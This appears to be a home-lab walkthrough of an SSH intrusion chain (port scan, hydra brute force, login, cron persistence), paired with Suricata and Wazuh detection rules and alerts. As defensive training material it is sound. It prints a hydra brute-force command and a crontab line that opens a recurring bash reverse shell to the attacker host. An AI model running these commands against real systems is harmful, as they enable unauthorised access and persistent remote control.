

# Attack Chain 1 — SSH Intrusion & Persistence

## Overview

This document walks through a complete SSH-based intrusion campaign simulated in the lab, demonstrating how Suricata (network layer) and Wazuh (host layer) together cover the full kill chain — from the attacker's first reconnaissance packet to a persistent backdoor on the victim machine.

**Attacker:** 10.10.1.130 (Kali Linux)  
**Victim:** 10.10.1.133 (Ubuntu Desktop)  
**Detection Stack:** Suricata on Sensor (10.10.1.132) + Wazuh Agent on Victim

---

## Kill Chain Overview

```
[Kali 10.10.1.130]
       │
       │  Step 1: Port Scan (nmap -sS)
       ▼
[Victim 10.10.1.133]  ──►  Suricata: SCAN Nmap SYN Scan (T1046)
       │
       │  Step 2: SSH Brute Force (hydra)
       ▼
[Victim :22]  ──────────►  Suricata: BRUTE SSH Brute Force (T1110)
       │
       │  Step 3: Successful Login
       ▼
[Victim SSH session]  ──►  Wazuh: Valid Accounts login (T1078)
       │
       │  Step 4: Crontab Backdoor
       ▼
[/var/spool/cron/crontabs/]  ►  Wazuh FIM: Scheduled Task (T1053.003)
```

---

## Step 1 — Reconnaissance: Port Scan

**MITRE Technique:** T1046 — Network Service Discovery  
**Detection:** Suricata rule 100001  
**Tool:** nmap

### Command

```bash
sudo nmap -sS -p- 10.10.1.133
```

### Result

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```



### How Detection Works

Suricata monitors all TCP SYN packets on the network interface. When a single source IP sends SYN packets to more than 20 different destination ports within 3 seconds, rule 100001 fires.

```
alert tcp any any -> $HOME_NET any (
  msg:"SCAN Nmap SYN Scan Detected";
  flags:S;
  threshold:type both, track by_src, count 20, seconds 3;
  sid:1000001;
)
```

### Alert Evidence

**Suricata fast.log:**


**Wazuh Dashboard:**


**Slack Notification:**


---

## Step 2 — Initial Access: SSH Brute Force

**MITRE Technique:** T1110 — Brute Force  
**Detection:** Suricata rule 100002  
**Tool:** hydra

### Command

```bash
hydra -l nvphuong -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.10.1.133 -t 4 -V
```

### Result

```
[22][ssh] host: 10.10.1.133   login: nvphuong   password: 456789
```


### How Detection Works

Suricata tracks the number of TCP connections to port 22 from a single source. When more than 5 connection attempts occur within 60 seconds, the brute force rule fires.

```
alert tcp any any -> $HOME_NET 22 (
  msg:"BRUTE SSH Brute Force Attempt";
  flow:to_server;
  threshold:type both, track by_src, count 5, seconds 60;
  sid:1000002;
)
```

### Alert Evidence

**Suricata fast.log:**


**Wazuh Dashboard:**


**Slack Notification:**


---

## Step 3 — Execution: Successful SSH Login

**MITRE Technique:** T1078 — Valid Accounts  
**Detection:** Wazuh rule 100008 (host-based, reads `/var/log/auth.log`)  

### Command

```bash
ssh nvphuong@10.10.1.133
# password: 456789
```


### How Detection Works

Wazuh Agent on the Victim reads `/var/log/auth.log` in real time. A successful SSH login after a brute force sequence triggers Wazuh rule 5715 (built-in), which our custom rule 100008 extends with MITRE T1078 mapping.

```xml
<rule id="100008" level="10">
  <if_sid>5715</if_sid>
  <description>MITRE T1078 - Valid Accounts: Successful SSH login</description>
  <mitre><id>T1078</id></mitre>
</rule>
```

### Alert Evidence

**Wazuh Dashboard:**


**Slack Notification:**


---

## Step 4 — Persistence: Crontab Backdoor

**MITRE Technique:** T1053.003 — Scheduled Task/Job: Cron  
**Detection:** Wazuh FIM (File Integrity Monitoring) rule 100003  

### Command

```bash
(crontab -l 2>/dev/null; echo "* * * * * /bin/bash -i >& /dev/tcp/10.10.1.130/4444 0>&1") | crontab -
```

### Verify

```bash
crontab -l
# * * * * * /bin/bash -i >& /dev/tcp/10.10.1.130/4444 0>&1
```


### How Detection Works

Wazuh FIM monitors `/var/spool/cron/crontabs/` in real-time mode. Any file creation or modification triggers a syscheck alert. Our custom rule 100003 matches syscheck events on this path and maps them to T1053.003.

**ossec.conf (Victim agent):**
```xml
<directories check_all="yes" realtime="yes">/var/spool/cron/crontabs</directories>
```

**custom rule:**
```xml
<rule id="100003" level="12">
  <if_sid>554</if_sid>
  <match>/var/spool/cron</match>
  <description>MITRE T1053.003 - Scheduled Task: Crontab modification</description>
  <mitre><id>T1053.003</id></mitre>
</rule>
```

### Alert Evidence

**Wazuh Dashboard:**


**Wazuh alert log:**
```
File '/var/spool/cron/crontabs/nvphuong' added
Mode: realtime
```


**Slack Notification:**


---

## Cross-Layer Correlation

This is where the lab demonstrates real SOC analyst thinking. Neither tool alone tells the full story:

| Signal | Source | What it tells us |
|--------|--------|-----------------|
| SYN scan from 10.10.1.130 | Suricata | Attacker is mapping the network |
| 5+ SSH connections in 60s | Suricata | Credential attack in progress |
| Successful SSH login | Wazuh | Attacker gained access |
| Crontab file created | Wazuh FIM | Attacker established persistence |

Combined, these four alerts from two different layers confirm a **complete intrusion campaign** — not just isolated events.

---

## Active Response

When Suricata's brute force rule (100002) fires, Wazuh's active response module automatically executes `firewall-drop` on the Victim, adding an iptables rule to block the attacker's IP for 300 seconds.

```
# ossec.conf (Wazuh Manager)
<active-response>
  <command>firewall-drop</command>
  <location>local</location>
  <rules_id>100002</rules_id>
  <timeout>300</timeout>
</active-response>
```


</br>


---

## Real-World Reference

This attack chain mirrors the **2024 Verizon DBIR** finding that credential-based attacks (brute force + stolen credentials) remain the #1 initial access vector across industries. The crontab persistence technique is commonly observed in post-compromise activity by threat actors targeting Linux servers.

**Related CVE:** CVE-2023-38408 — OpenSSH pre-auth vulnerability that makes exposed SSH ports a high-value target.
